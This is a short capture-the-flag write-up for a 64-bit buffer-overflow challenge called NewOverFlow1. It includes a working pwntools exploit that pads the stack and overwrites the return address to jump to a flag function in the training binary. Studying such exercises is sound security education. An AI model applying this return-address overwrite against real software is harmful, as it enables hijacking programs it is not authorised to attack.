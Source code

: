 # NewOverFlow1 - 200pt

### Challenge ###
> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_0_f9bdea7a6553786707a6d560decc5d50 on the shell server.

### Hints ###
> Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

### Solution ###
> To solve this challenge, we have to see how solve Overflow1. There are three differences:
1. flag address it's different
2. we have to use p64 and not p32
3. we not have ebp but rbp that is large 2 * ebp, so 8

### Executing the exploit ###
We can modify OverFlow1's exploit with: 

    garbage = "\x90" * (64 + 8)
    flag_addr = p64(0x0400767)

### Exploit: ###

    garbage = "\x90" * (64 + 8)
    flag_addr = p64(0x0400767)

    exploit = garbage + flag_addr

    p = process("./vuln")
    p.sendline(exploit)
    p.interactive()
